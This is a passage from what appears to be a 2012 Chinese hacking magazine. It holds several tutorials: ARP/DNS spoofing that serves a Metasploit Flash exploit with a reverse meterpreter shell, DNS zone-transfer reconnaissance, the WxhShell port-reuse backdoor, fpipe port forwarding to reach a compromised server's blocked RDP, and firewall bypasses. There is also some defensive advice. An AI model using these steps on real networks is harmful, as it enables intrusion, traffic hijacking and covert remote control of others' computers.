*.baidu.com A 192.168.137.55
```

图8

保存退出 vim。然后我们再用 msf 配置特定的页面。在终端里面输入 `msfconsole` 进入 msf 的命令行界面，使用前两天爆出来的 Adobe Flash Player 的漏洞生成一个攻击页面（漏洞代号：CVE-2012-0754），如图9。

这里加载了攻击模块以后，使用 `show options` 命令查看选项。SRVHOST 就是指需要生成页面的 IP 地址，这里当然是本机 192.168.137.55。SRVPORT 指的是 Web 服务器端口，默认要设置成 80。还有一个 URIPATH 就是选择生成页面的路径，因为我们是要欺骗过来而不是让人家主动打开，所以必须选择根目录。就是对方一打开浏览器输入 www.baidu.com 就转到我的 IP 地址默认80号端口默认的根目录。然后设置攻击载荷，就是对方如果中招以后，怎么能拿到对方权限呢？这里我设置成反弹式，就是对方中招以后主动连接我开放的特定端口，这样就可以很大一部分避免了防火墙的阻挡。设置时只需要用到 `set` 命令就行了，如图10。

```text
msf > use exploit/windows/browser/adobe_flash_mp4_cprt
msf exploit(...) > show options
...
SRVHOST 0.0.0.0
SRVPORT 8080
URIPATH /
```

图9

```text
msf exploit(...) > set srvport 80
msf exploit(...) > set srvhost 192.168.137.55
msf exploit(...) > set uripath /
msf exploit(...) > set payload windows/meterpreter/reverse_tcp
msf exploit(...) > set LHOST 192.168.137.55
```

图10

好的，设置完毕，我们开始生成页面攻击！在 msf 里面输入 `exploit`，msf 便自动开启 web 服务并且在指定目录下生成了一个攻击页面，如图11：

```text
msf exploit(...) > exploit
[*] exploit running as background job.
[*] server started.
```

图11

如果有人在默认端口打开 192.168.137.55 的话，而且相关的漏洞没有修补的话，就会中招。现在我拿我 Win7 本机打开 http://192.168.137.55/ 这个页面，可以看到 msf 已经显示有了连接，只不过因为我这边浏览器是最新的，相关漏洞我已经做好补丁，所以在我这里不会成功。如图12：

```text
[-] 192.168.137.x:31808 - Browser not supported...
```

图12

总之说明我们的配置生效了。好，现在让我们开始进行 ARP 攻击！另外打开终端窗口，输入 `ettercap -T -q -P dns_spoof -M arp -i eth0 // //`，意思是以 ARP 中间人的方式在文本界面使用 DNS 欺骗规则攻击虚拟网卡的所有连接上的机器。

如图13：

```bash
root@bt:~# ettercap -T -q -P dns_spoof -M arp -i eth0 // //
listening on eth0...
Scanning the whole netmask for 255 hosts...
```

图13

现在就让我们安静地等着鱼儿上钩吧！大概五分钟后，可以看到已经有人连接上并且打开我们的攻击页面了，msf 也获取得到一个 session，在 msf 里面输入 `sessions` 命令，可以看到当前截取到的对话 ID 是1，那么继续输入 `sessions -i 1`，就可以获取到一个 meterpreter 的会话权限，如图14。

图14

获取到会话以后，先使用 `getuid` 查看目前当前用户是什么权限，发现是 administrator 权限，然后可以用 `getsystem` 命令直接获取 system 权限，这里就不继续演示了。如果觉得这样返回的 shell 不太直观或者不会使用，可以直接输入 `shell` 命令，就会返回一个大家都熟悉的 cmd-shell，如图15。

不过个人觉得还是 meterpreter 的 session 更加强势，可以通过一些简单的命令远程关机，开启关闭服务，甚至可以截屏和键盘记录！具体用法在 meterpreter 界面下输入 `help` 就可以查阅。

图15

到此整个攻击过程按理也就结束了，顺便吐一下槽，如果我主机是 Linux 系统的话完全可以省略前面的步骤，直接加载规则然后欺骗就好了。不过我这里演示的只是一种思路，有时候我们既要运用 Windows 的方便，也要用到 Linux 的强大。还有就是，同样的方法可以直接连接图书馆或者其他公用场合的 WiFi 网络，然后进行欺骗，因为杀伤力太大，本菜鸟就不演示了。

那我们该如何防御呢？本菜鸟见过最有效也是最方便的方法就是使用 360 安全卫士开启 ARP 防火墙，要是没有 360 安全卫士的话下载一个 ARP 防火墙也可以。但是防御的原理又是什么呢？对于服务器来说，进行 ARP 双向绑定是最好的防御方法。因为服务器的 IP 地址一般是不会轻易改变的，这时候对网络关卡进行 ARP 双向绑定，意思就是网关只认识服务器，把数据只交到服务器手上，别人冒充也不管用；而服务器也只认识那个网络地址对应的网关，别人就算假装了物理地址也不行，数据也不会交到他们手上。在我们的例子上，就是邮递员和小明互相认识，邮递员只会给 xx 大街 xx 号的小明，要是有人冒充小明邮递员也不会承认，反过来也一样。

最后，希望通过我的这篇菜鸟文章，树立大家哪怕一点点的网络安全意识。本人技术有限，若其中出现差错，请各位看客见谅。加强网络安全建设，我们还有很长一段路要走。

### Android提权和安装BackTrack

Akast [N.S.T]

2012 新年到了，给大家带来一个好玩的东西拜年。现在应该很多朋友都有安卓的手机了，所以我们做渗透不仅是在电脑上进行了，而是在平板电脑或是智能手机上进行会更加方便。这里就给大家介绍一种在 Android 手机上安装 BackTrack 的方法，BackTrack 是世界著名的渗透测试操作系统。

我的手机是索爱 XPERIA x10i，我要用它来安装 BackTrack，所以先要获得 Android 系统的 root 权限。提权原理其实很简单，也是用 Linux 内核提权漏洞来获得 root 权限的。下面是我手机的一些基本信息。

- 手机型号：X10i
- Android版本：2.3.3
- 基带版本：2.1.71
- 内核版本：2.6.29-00054-g5f01537 SEMCUser@SEMCHost #1
- 版本号：3.0.1.G.0.75

#### 一、Android提权

我用的提权工具是 SuperOneClick v2.2-ShortFuse，大家可以到工具官网：https://shortfuse.org 下载，下面是提权的步骤：

- 1. 先要在电脑上安装手机的 USB 驱动，所以到索爱官网下载一个管理软件：http://dl-www.sonyericsson.com/cws/download/1786/189/132005_5975/Sony_Ericsson_PC_Companion_2.01.231_Web.exe，其他的根据你的手机型号和电脑操作系统来选择相应的软件。
- 2. 到 https://shortfuse.org 下载最新版本的提权工具，名称是 SuperOneClick。
- 3. 把手机关机，取出手机中的 SD 卡，然后开机，到手机的“设置”->“应用程序”->“开发”->“USB调试”中关掉 USB 调试功能。
- 4. 手机使用 USB 连接电脑，打开 SuperOneClick，点击工具界面上的“Root”。
- 5. 看到 SuperOneClick 出现这两条信息：*daemon not running, starting it now on port 5037*、*daemon started successfully*，这时再到手机的“设置”->“应用程序”->“开发”->“USB调试”中打开手机的 USB 调试功能。

#### 二、Android安装BackTrack（电脑中的操作）

我们的手机要从 Android Market 上安装 androidVNC 和 Terminal Emulator（终端仿真器）两个工具。另外要下载 BackTrack 5 的 ARM 版本，由于 BackTrack 官方提供的 ARM 镜像大于 4G，是在摩托罗拉的 Xoom 平板电脑上用的，我们普通的安卓手机用的 SD 卡是 FAT32 的文件格式，放不下大于 4G 的文件，所以不能直接使用 BackTrack 官方的 ARM 镜像。大家到这里下载减缩后的 BackTrack 镜像：

- http://hackomania.com/BT5/bt.7z.001
- http://hackomania.com/BT5/bt.7z.002
- http://hackomania.com/BT5/bt.7z.003

用 cat 命令合并上面下载的三个压缩文件：`cat bt.7z.001 bt.7z.002 bt.7z.003 > bt.7z`，用 7z 命令解压合并后的压缩文件：`7z e bt.7z`，如图3。

图3

图4

- 1. `bt`：BackTrack 的命令行版本 chroot。
- 2. `bt.img`：BackTrack 镜像。
- 3. `startbt`：挂载并准备使用 BackTrack。
- 4. `stopbt`：卸载并释放所有资源。
- 5. `installbt.sh`：自动配置脚本。

解压后可以看到以上文件，按以下方法修改一下 `startbt` 这个脚本文件（图4）。最后新建一个名称为 bt 的文件夹，把它们全部放进去，把这个 bt 文件夹复制到你手机 SD 卡的根目录下。

```bash
mount -t devpts devpts $mnt/dev/pts
mount -t proc proc $mnt/proc
mount -t sysfs sysfs $mnt/sys
```

改为：

```bash
busybox mount --bind /dev/pts $mnt/dev/pts
busybox mount --bind /proc $mnt/proc
busybox mount --bind /sys $mnt/sys
```

#### 三、Android安装BackTrack（手机中的操作）

在手机中打开 Terminal Emulator（终端仿真器）并运行以下命令自动配置 BackTrack：

- `su`：转为 root 用户
- `cd /sdcard/bt`：跳转到 SD 卡的 bt 目录下面
- `sh installbt.sh`：运行配置脚本
- `startbt`：启动 BackTrack
- `bt`：进入 BackTrack 的命令行界面
- `ui`：开始运行 vncserver
- `killui`：停止运行 vncserver

上面的命令执行成功后就可以使用 BackTrack 了，当然还可以通过 androidVNC 连接 BackTrack 的图形界面。首先要使用 `ui` 命令启动 BackTrack 的 VNC 服务。（默认密码是 12345678，你可以使用 BT 的 `vncpasswd` 命令更改这个密码）。

打开手机的 androidVNC 配置以下信息：

- Nick：BackTrack（bt for short）
- address：localhost
- port：5901
- password：12345678

连接 BackTrack 的 VNC 即可打开漂亮的图形界面（图5），但是图形界面打开的速度就要看你手机的性能了，有些手机打开会比较慢。本文就介绍到这里。

图5

### DNS区域传送的妙笔

孔雪

#### 一、前言

许多人将黑站和渗透测试相提并论，其实这是不对的，概念和行为都是不一样的。其一，入侵者往往只是拿下一个网站的 webshell，或者单纯想提权来拿到一台服务器；而一个公司或者一个组织，网络规模中并不止一台服务器而已。其二，渗透测试是以入侵者的身份合法地对一个规模网络中各个能够穿透的地方进行攻击，所以拿下一台服务器并不算任务完成了。所以渗透测试和黑站并不是一个概念。希望借此向大家介绍一点大规模网络渗透的概念。

作为一个稍微有一点规模的机构，往往有多个网段，各个网段之间通过路由进行相互连接，然后再通过一个核心路由器连接至 ISP（Internet 服务提供商）。组织内一般会有服务器，提供各种各样满足组织需求的服务，比如有 DHCP 服务器，为组织内每一个员工提供自动获得 IP 的功能，还有 DNS 服务器方便解析域名，以及文件共享服务器、邮件服务器、Web 服务器等等。

今天我主要讲的是关于 DNS 服务器上一个小小的问题。既然是一个有规模的组织，一般都会提供冗余的服务器，因为用户量比较多，如果服务器当机了，会造成一定时间的服务中止。往往在搭建网络的时候，这种情况是必须要考虑到并且尽可能要避免的，所以往往又会有提供冗余服务的备份服务器。所谓冗余服务器，就是一主一辅的服务器，主服务器出了问题，就由辅服务器来继续提供服务。为了让用户察觉不到这点，两台服务器提供的数据会保持同步，也就是主服务器的数据会在一定时间内复制到辅服务器中。不少人认为这是多余的手段，咱这么来说吧，很多人有银行卡对吧，取钱的时候就是对银行的数据库操作，如果只有一台数据库服务器供人来操作，那岂不是在中国这样的人口大国中，几分钟就宕机一次，死机一分钟岂不要导致不可计数的大损失。

图1

默认情况下是没有启用区域传送的，如果要实现传送功能，需要勾选“允许区域传送”。在区域传送中，有三个选项，分别是“到所有服务器”、“只有在‘名称服务器’选项卡中列出的服务器”和“只允许下列服务器”。

我们可以把这三个选项当作是一种授权手段，后两项需要指定传送到哪一台服务器。也就是说，来自非指定服务器的 IP 地址请求，主服务器不会理会；只有是指定服务器的地址发来的同步请求消息，主服务器才会将副本发送给备份服务器上。但是，许多管理员为了图个方便，或者说是自身掌握的知识量不够，直接就选了“到所有服务器”。这样不管是哪一台服务器发来的请求，它都会将副本发送给它，导致的直接结果就是泄露了网络结构。

这好比取快递一样，以前快递员都会让你说出手机号或者出示证件来和包裹上的信息核对，匹配后才给你包裹。但现在快递员懒了，你过去报个名儿，我叫 XX，然后他就给你包裹，签字，走人。

整个过程就是这么回事儿，最主要关心的是 DNS 服务器中的记录。我们知道 DNS 是方便将人性化的域名解析成机器可识别的 IP 地址，因为计算机之间的网络通信是靠 IP 地址来标识的，计算机并不理解 DNS 命名代表的意义，所以不知道 shellcodes.org 是我开的网站。DNS 名称和 IP 是相对应的，DNS 域名是可以申请的。

#### 二、DNS区域传送

最简单的，拿我所在的学校来说，机器数量已经过千，学校有专门的 DNS 服务器，但是一台 DNS 服务器明显是不够的，于是就有两台。DNS 主服务器是 Windows 2003 的操作系统，通过“区域传送”功能将 DNS 解析的记录复制到辅助服务器中，来达到两台服务器同步的效果。

DNS 区域传送是用来将本服务器中的所有解析记录传输到备份服务器上的。在 Windows Server 的 DNS 管理器中，指定一个域名，点击右键，选择“属性”，并在“区域传送”选项卡中可以设置，区域传送设置选项如图1。

比如万网、美橙互联等地方申请。申请之后我们就可以使用这个域名来完成一些服务，比如邮件服务需要域名、域环境需要域名、Web服务器需要域名等等。但最多的可能就是Web服务器了，比如我们学校有在线电影、学生管理系统、在线办公等等，学校网管为了方便在校人员访问，每一个Web应用都用了一个二级域名来方便记忆。问题就在于，搞定DNS中的记录，我们就得知了很多台Web服务器、邮件服务器之类的IP地址，对渗透来说，又多了一片天空。当然你可以选择扫描网段，光靠一个容纳几千台计算机的网段来一个个IP扫描是很费时间的，并且动静也很大。下面我们来看看在BackTrack 5中是怎么搞定伪造区域传送的。

#### 三、DNS区域传送请求

在BackTrack 5中，有一个工具叫dnswalk，它就可以非常简单地完成任务。可以通过以下两种方法找到该工具：

- 1）菜单方式，位于 Applications -> BackTrack -> Information Gathering -> Network Analysis -> DNS Analysis 中。
- 2）命令行方式，`cd /pentest/enumeration/dns`，然后 `./dnswalk`。

直接运行 `./dnswalk xxx.com.` 即可，xxx.com是一个参数，即指定的域名，注意没有www打头，并且有一个“.”（点号）结尾，比如某网站的域名是www.xxx.com，就应该键入xxx.com.作为参数。如果该DNS服务器的配置出了上文中提及的问题，就会返回所有解析记录，其中xxx.com明显是我伪装了的假地址。返回的结果被修改后如下：

```bash
root@bt:/pentest/enumeration/dns/dnswalk# ./dnswalk xxx.com.
Checking xxx.com.
BAD: xxx.com. has only one authoritative nameserver
Getting zone transfer of xxx.com. from ns.xxx.com...done.
```

```bash
ns.xxx.com...done.
SOA=ns.xxx.com contact=root.xxx.com
WARN: st.xxx.com A 182.1xx.x.x: no PTR record
WARN: //?.xxx.com: invalid character(s) in name
WARN: dc1.xxx.com A 182.1xx.x.x: no PTR record
WARN: e2state.xxx.com A 182.1xx.x.x: no PTR record
WARN: ftp.xxx.com A 182.1xx.x.x: no PTR record
WARN: job.xxx.com A 182.1xx.x.x: no PTR record
WARN: int.xxx.com A 182.1xx.x.x: no PTR record
WARN: mail.xxx.com A 182.1xx.x.x: no PTR record
WARN: nc.xxx.com A 182.1xx.x.x: no PTR record
WARN: ns.xxx.com A 182.1xx.x.x: no PTR record
WARN: ns2.xxx.com A 182.1xx.x.x: no PTR record
WARN: sscmail.xxx.com A 182.1xx.x.x: no PTR record
WARN: www.st.xxx.com A 182.1xx.x.x: no PTR record
WARN: view.xxx.com A 182.1xx.x.x: no PTR record
WARN: vpn.xxx.com A 182.1xx.x.x: no PTR record
WARN: www.xxx.com A 182.1xx.x.x: no PTR record
WARN: www2.xxx.com A 182.1xx.x.x: no PTR record
WARN: xbt.xxx.com A 182.1xx.x.x: no PTR record
WARN: zf.xxx.com A 182.1xx.x.x: no PTR record
0 failures, 19 warnings, 1 errors.
```

上面的结果是来自一个真实的DNS返回来的，一眼就看出几个敏感的地方，mail.xxx.com、ftp.xxx.com等等。

上面的结果给了我们渗透一个大型网络环境更多的下手地方。这里不能说大型网络就不会犯这种错误了，大多数的网管都没有这个意识，而且我见过的犯这种错误的网络环境还比较多。收集更多的信息对于渗透来说，无疑是无比重要的。写本文的目的以开阔各位的视野为主，吹牛为辅；同时也希望借此对网络管理岗提醒，加强他们的安全意识。安全并不是打补丁和安装防火墙就可以了事的。

### PHP也来实现计算MD5和SHA1散列

在《黑客X档案》2011年第10期杂志上有人（原文章没写作者名字，抱歉）用Free Pascal语言借助Lazarus工具实现了计算字符串和文件的MD5和SHA1散列。小菜我正在学习PHP脚本语言，就想能不能用PHP也来实现计算字符串和文件的MD5和SHA1散列功能。在PHP帮助手册的帮助下我用一晚上的时间做到了。

PHP编写的程序有两种，一种是在命令行下运行，一种是在Web空间中用Apache、IIS等Web服务器软件运行。为了更方便传递要计算散列的字符串或要计算散列的文件的文件名，我决定编写在命令行下运行的PHP程序。

其实用PHP来计算MD5和SHA1散列还是很简单的，PHP有计算MD5和SHA1散列的对应内置函数，只需要调用相应的函数就行了。计算字符串的MD5和SHA1散列的函数和计算文件的MD5和SHA1散列的函数不是一个，共需要用到4个内置函数。计算字符串的MD5散列的内置函数是md5()，计算文件的MD5散列的内置函数是md5_file()；计算字符串的SHA1散列的内置函数是sha1()，计算文件的SHA1散列的内置函数是sha1_file()。因为计算字符串的散列的函数和计算文件的散列的函数不是同一个，先要通过参数告诉程序是计算字符串的MD5和SHA1散列还是计算文件的MD5和SHA1散列。如果参数是s就是计算字符串的MD5和SHA1散列，如果参数是f就是计算文件的MD5和SHA1散列。要计算MD5和SHA1散列的字符串或文件用另一个参数来传递给程序。PHP程序的参数保存在数组argv[]中，argv[0]是第一个参数，它的值是PHP文件的文件名；argv[1]是第二个参数，用来接收是计算字符串的MD5和SHA1散列还是计算文件的MD5和SHA1散列的参数s或f；argv[2]是第三个参数，用来接收要计算MD5和SHA1散列的字符串或文件的文件名（可以带文件所在的目录）。

PHP来实现的计算MD5和SHA1散列的程序的具体代码为：

```php
<?php
//程序功能说明
print("************************************\nPHP学习笔记之计算字符串或文件的MD5、SHA1值\n************************************\n");

//程序使用说明和用法举例
error_reporting(0);
if(count($argv)<3){
    print_r('Usage: php '.$argv[0].' s/f 要计MD5、SHA1散列值的字符串或文件名\nExample:\nphp '.$argv[0].' s str\nphp '.$argv[0].' f filename\n');
    exit;
}

//实现计算MD5和SHA1散列的代码
if($argv[1]==='s'){
    $str=$argv[2];
    $str_md5=strtoupper(md5($str));
    $str_sha1=strtoupper(sha1($str));
    echo "$str's MD5 is $str_md5\n";   //以大写形式输出计算好的字符串的MD5值
    echo "$str's SHA1 is $str_sha1";   //以大写形式输出计算好的字符串的SHA1值
}

if($argv[1]==='f'){
    $filename=$argv[2];
    $file_md5=strtoupper(md5_file($filename));
    $file_sha1=strtoupper(sha1_file($filename));
    echo "file $filename's MD5 is $file_md5\n";   //以大写形式输出计算好的文件的MD5值
    echo "file $filename's SHA1 is $file_sha1";   //以大写形式输出计算好的文件的SHA1值
}
?>
```


图1

把上面代码保存为md5sha1.php，把文件复制到C盘根目录下。要运行这个程序，需要系统中安装PHP，我的系统中已经安装好了PHP，PHP版本为PHP 5.3.8，如图1。打开命令提示符，切换到C盘根目录下，输入“php md5sha1.php”后回车就可以看到程序的使用说明了，如图2。我已经把php.exe所在的目录加进了系统环境变量中，因此不用输入php.exe所在的目录。


图2

先来计算下字符串的MD5和SHA1散列。输入“php md5sha1.php s hackerxfiles”，回车，计算出了字符串hackerxfiles的MD5散列4273F14A9184FBA9E52CC1716086C9A2和SHA1散列62860C160C1F1B64ADB5F0153C04120521E55FC6，如图3。


再来计算下文件的MD5和SHA1散列。就来计算我写的md5sha1.php这个文件的MD5和SHA1散列。在命令行下输入“php md5sha1.php f md5sha1.php”，回车，计算出了文件md5sha1.php的MD5散列B4CBC8533A8E20C5689777E714BC4CD5和SHA1散列B5BD77458D3F4CD3152DA95D0834915397EC261C，如图4。计算出的散列结果是否正确呢？我们来验证下。用计算文件散列的小工具Hash来计算文件md5sha1.php的MD5和SHA1散列，发现计算结果和我的PHP程序计算出的结果完全相同，如图5。


来计算下中文目录下文件名是中文的文件的MD5和SHA1散列。我在C盘根目录下新建了一个名为测试的目录，把putty.exe复制到测试目录下，重命名为测试.exe。在命令行下输入“php md5sha1.php f C:\测试\测试.exe”回车后，计算出的测试.exe的MD5散列为9BB6826905965C13BE1C84CC0FF83F42，SHA1散列为AE7734E7A54353AB13ECBA780ED62344332FBC6F，和Hash计算出的结果完全相同，如图6。说明程序在计算文件的MD5和SHA1散列时支持中文目录和中文文件名。

其实真要计算字符串和文件的MD5和SHA1散列，用图形界面下的工具可能更方便使用。但是，利用PHP编写的程序也能实现这个功能，就是命令行下的易用性有所欠缺。我写这个小程序就是为了加深对已学东西的运用。由于刚开始学，代码难免有写得不严谨或错误的地方，朋友发现后欢迎指正，我在黑客X档案官方论坛的ID是txcbg。

### 浅议端口复用技术

郭建伟

我们知道，电脑要和外接网络进行连接，必须通过特定的端口才行。在传统印象中，通过一个端口只能开辟一条网络连接。但是，实际情况却不仅如此，使用端口复用技术，就可以通过一个端口开辟多条连接通道。端口复用是指允许多个程序共用一个端口，当客户端向该端口发送连接请求时，服务器端会对该请求作出判断，然后把网络数据发送给相应的程序。当然，在电脑中还存在6万多个可以利用的端口，端口复用技术似乎用处不大，但实际上在某些场合，端口复用技术还是有着重要的用途。例如在局域网中，通常利用防火墙和外网分隔，但是防火墙不可能关闭所有网络端口，只要在防火墙上开启了特定的端口，就可以利用端口复用技术轻松穿越防火墙的“束缚”。另外，现在一些后门程序也都采用了这一技术，达到隐蔽入侵的目的，因此我们很有必要了解端口复用技术，达到知己知彼的目的。这里我们就以WxhShell为例，从实战的角度了解端口复用技术。

WxhShell是一个小巧的远程控制程序，可以轻松实现端口复用。当然，该程序对于采用独占方式的端口无法实现绑定操作（例如Windows XP中的135、445等端口），对于其他端口基本上都可以实现多重绑定。在服务器上的CMD窗口执行“wxhshell.exe”，之后程序没有任何回显信息，但是WxhShell已经在系统中运行了。在Windows的任务管理器中可以看到其“身影”，当然您可以直接在其中关掉该进程。WxhShell默认开启的网络端口号是5000。在客户端我们使用监听工具“nc.exe”与之建立连接。例如在客户端的CMD窗口中执行命令“nc 61.54.56.120 5000”，就可以和服务器建立连接，这里的“61.54.56.120”为服务器的IP。在弹出的“Please Input Your Password”栏中输入密码（默认为“xubuanlingzhe”），之后弹出“#>”命令提示符，表示已经和服务器建立了网络连接。在其中输入“?”，可以列出WxhShell所有命令参数（如图1）。


图1

说明了wxhshell的使用方法，之后我们分析如何利用WxhShell实现端口复用。其实操作的方法很简单，在服务器上执行“wxhshell.exe”命令时，需要使用“wxhshell + 需要复用的端口号”的方式。例如在服务器上启动了IIS服务，该服务使用到了80端口，如果需要在服务器上复用80端口，则在CMD执行命令“wxhshell 80”即可。然后就可以按照上述方法，在客户端和服务器端建立连接了，例如在客户端的CMD窗口中输入“nc 61.54.56.120 80”，就可以和服务器上的80端口建立网络连接，进而执行安装远程控制模块、创建Shell环境等操作了。

当然，当使用WxhShell通过服务器上的80端口远程遥控服务器时，对服务器上运行的IIS服务毫无影响。这样，我们的遥控操作就可以轻松穿越防火墙的阻隔了，因为防火墙在一般情况下是不会关闭80等常用端口的。这样就实现了IIS和WxhShell共同绑定80端口的操作。此时在CMD窗口中执行命令“netstat -an”，查看系统当前的端口占用情况，就会发现80端口的确被同时占用。值得说明的是，当与复用端口正常绑定的程序突然退出并重启时，会出现系统出错的情况。例如本例中，当IIS服务突然退出并重启时，就会出现“地址已经使用”的提示，造成IIS无法使用的情况。这就是端口复用技术的薄弱之处，此时必须退出并终止WxhShell，才可以正常启动IIS等常用程序。

### 端口映射技术杂谈

端口映射按照原理可以分为动态端口映射和静态端口映射两类。动态端口映射指当内网中的电脑访问外部网络时，其发送的数据包中包含源地址和源端口，以及目标地址和目标端口等信息。但是由于在Internet上并不识别专用地址，所以当数据包发送到网关服务器上时，网关会把其中的源地址和源端口替换为自己的地址和端口，然后把数据包发送出去，同时记录下这种地址和端口的对应关系。当外网主机接收到该数据包后，会发送一个应答包给网关服务器，因为刚才网关服务器已经建立了对应关系，所以会把应答包中的目的地址和端口修改为内网中的地址和端口，之后转发给指定的内网主机，这就实现了数据转发功能，常用的Sygate、Wingate等软件都可以实现上述功能。

当内网和外网的连接关闭时，服务器网关会释放这条转发连接，这就是动态端口映射技术。静态端口映射技术指服务器网关打开一个固定的端口，而且发送到该端口的数据都将转发到内网中的某台主机指定端口上，不管连接是否存在，这种数据转发关系都一直存在。这里说的网关服务器指的是路由器、交换机或者独立的PC。

## 傻瓜黑客

#### 一、使用IIS实现简单端口映射

打开Windows的Internet信息服务管理器，在其窗口左侧列表中选中合适的站点项目，在其右键菜单中点击“属性”项，在属性窗口中的“主目录”面板中选中“另一台计算机上的共享”项，在“网络目录”栏中输入UNC路径信息，例如`\\192.168.0.9\server`；这样来自外界的连接请求就会自动映射到另一台电脑的指定目录上。并可以选择“重定向到URL”项，在“重定向到”栏中输入内部网络的Web服务器地址，例如“http://192.168.0.99”等，这样来自外界的访问请求就会自动转移到指定的URL上了。在IIS中还包含了FTP组件，同样可以实现FTP的端口映射。在Internet信息服务管理器中选中“默认FTP站点”项，在其属性窗口打开“主目录”面板，在其中选中“另一台计算机上的共享位置”项，其余的操作方法和上述完全相同。

#### 二、巧用路由和远程访问实现端口映射

在Windows 2003 Server中可以使用系统自带的“路由和远程访问”功能，来实现端口映射功能。点击“开始”→“程序”→“管理工具”→“路由和远程访问”，在其窗口左侧列表中选中本地计算机名称，在右键菜单中点击“配置并启用路由和远程访问”项，弹出操作向导界面；在“配置”窗口中选择“网络地址转换”项，在“NAT Internet连接”窗口中选择“使用此公共接口连接到Internet”项，在列表中显示出本机中的所有网卡信息，在其中选中连接Internet的网卡，在下一步窗口中点击“完成”按钮，即可完成配置并启动路由和远程访问功能。在“路由和远程访问”窗口中选中“本机名称”→“IP路由选择”→“NAT/基本防火墙”分支，在右侧窗口中双击外网连接项，在属性窗口中的“服务和端口”面板中点击“添加”按钮，在添加服务窗口中输入服务的描述信息，在“协议”栏中选择TCP或者UDP协议，在“传入端口”中输入在Internet上供用户访问的端口号，例如输入端口号80；在“专用地址”栏中输入内部网络中的服务器地址，例如输入“192.168.0.100”；在“传出端口”栏中输入内网中服务器的端口号，例如端口号80。假设本机的外部地址为“219.89.56.91”，那么访问“219.89.56.91”上的Web服务，就会自动转向内网中的IP为“192.168.0.100”的主机Web服务器上。如果本机使用多个公网IP，那么在配置端口映射之前，需要进行NAT地址池的设置。在属性窗口中的“地址池”面板中点击“添加”按钮，如果使用IP和掩码表示地址范围，在弹出的对话框中输入起始地址和掩码即可，否则直接输入起始和结束地址即可。同时在上述“添加服务”窗口中设置端口映射时，需要选择“在此地址池”项。

#### 三、使用专用工具实现端口映射

除了系统自带的工具外，一些第三方软件也可以实现端口映射功能。这里以PortTunnel和Port2Port为例进行说明。PortTunnel（下载地址：http://www.onlinedown.net/soft/4557.htm）提供了HTTP、FTP、SMTP等多种服务的端口映射功能，还提供了日志、统计和安全性等设置功能。在其主窗口中点击“Add”按钮，在弹出窗口的“Main”面板中的“Name”栏中输入新建映射的名称，勾选“Enabled”项，表示激活端口映射功能。在“In”栏中的“Port”中输入供外界访问的端口号；在“Bind address”中选择本机的外网IP，在“Out”栏中的“Port”中输入映射端口，在“Bind address”中输入内网中的主机地址。PortTunnel还提供了批量端口映射功能，在上述“In”和“Out”栏中选中“Range”项，即可设置映射的端口群。之后点击OK按钮即可实现端口映射功能。

Port2Port是一款命令行下的端口映射工具，使用方法很简单，其语法结构为“P2P [-options] <-l lPort> <-T tIP> <-t tPort>”，其中“-h”参数表示帮助信息，“-d”参数表示显示信息，“-s”参数表示在同目录下生成名称为P2P.log的日志文件，其中“-l lPort”参数表示输入端口，“-T tIP”参数表示输出IP，“-t tPort”参数表示输出端口。例如将本机的80端口映射到内网中的“192.168.0.99”的80端口上，只要在CMD窗口中执行命令“p2p -d -s -l 80 -T 192.168.0.99 -t 80”即可。

#### 四、巧用端口映射突破内网枷锁

现在很多单位的局域网都是通过网关来控制内网共享上网的，对于外网用户来说，如何能够突破网关的限制，轻松访问内网资源呢？实际上，利用端口重定向技术，即可巧妙解决上述问题。这里假设网关的IP为202.98.196.6，需要访问的内网电脑IP为192.168.0.79。这里使用Fpipe这款小巧的端口重定向工具，在网关服务器上执行“fpipe -l 81 -s 91 -r 21 192.168.0.79”（将发送给网关服务器81端口的数据通过91端口转发向192.168.0.79的21端口）、“fpipe -l 82 -s 92 -r 23 192.168.0.79”（将发送给网关服务器82端口的数据通过92端口转发向192.168.0.79的23端口）、“fpipe -l 83 -s 93 -r 80 192.168.0.79”（将发送给网关服务器83端口的数据通过93端口转发向192.168.0.79的80端口）、“fpipe -l 84 -s 94 -r 139 192.168.0.79”（将发送给网关服务器84端口的数据通过94端口转发向192.168.0.79的139端口）等命令，即可实现对内网指定电脑的端口映射功能。这里需要简单说明一下Fpipe的用法：命令行中的“-l”参数表示输入端口号，“-r”参数表示要定向到的目标IP主机，“-s”参数表示重定向的端口号。之后在本机上执行命令“telnet 202.98.196.6 82”，就相当于telnet到了内网192.168.0.79的23号端口上；执行“ftp 202.98.196.6 81”相当于登录到内网192.168.0.79的21号端口上。这样，就实现了突破网关访问内网主机的目的。实际上，在黑客入侵活动中，端口重定向技术也是很常用的。

若对Internet上某台主机进行溢出攻击，在其上取得了具有相当权限的CmdShell环境，在该机上开启了3389终端服务，但是管理员使用IP安全策略对3389端口进行了封锁，从外部直接连接终端服务是无法成功的。黑客可以通过IPC$连接将Port2Port、Fpipe等工具上传到服务器上，之后在CmdShell中执行`Fpipe -v -l 3333 -r 3389 127.0.0.1`，这样即可将目标服务器上的3333端口映射到3389端口上；之后黑客即可在本机使用终端服务连接工具连接目标机的3333端口，这样就可以通过端口映射使用目标机的终端服务了。因为管理员通常只对重要的端口进行封锁，使用端口映射技术可以轻松突破这种封锁。

#### 五、妙用端口映射突破局部封锁

QQ是很常用的聊天工具，它使用的是UDP协议，现在很多单位为了防止员工使用QQ聊天，将UDP协议进行了封锁，这样在默认情况下是无法使用QQ的。实际上，使用端口映射技术可以有效地突破协议封锁。这里使用的端口映射工具为“SuperAgent”，这是一款很经典的工具。

某些网络协议数据包的防火墙有效，因为它可以改变数据包的协议类型，其实质就是一款端口映射工具。首先在网上配一台可以完全控制的主机（假设其IP为“61.54.56.90”），在其上运行`superagent 219.133.49.168 8000 4000 5000`，其中的“219.133.49.168”是腾讯的QQ服务器地址，之后在本机上运行`superagent -t 61.54.56.90 5000 8000`。在QQ的设置窗口中将QQ服务器的IP修改为“127.0.0.1”，端口仍设为8000，这样就可以将本机伪装为QQ服务器。在使用QQ聊天时，从本机发出的数据包经过本机的8000端口到网上主机的5000，再发送到网上主机的4000端口，最后发送到QQ服务器的8000端口；在与网上主机的通讯时，使用的是TCP协议，网上主机和QQ服务器之间才使用UDP协议，这样就巧妙地突破了本网中的UDP协议封锁。当然，如果在本网中只是对QQ的端口进行了封锁，那么就可以使用专用端口映射工具“qqport”来突破端口封锁。先将QQ设置中将服务器地址修改为“127.0.0.1”，接着运行`qqport.exe`程序，指定新的网络端口（例如2000端口），之后将QQ离线后重新上线即可。

## 对抗四大杀软

### ——记一次侥幸的免杀

Faust

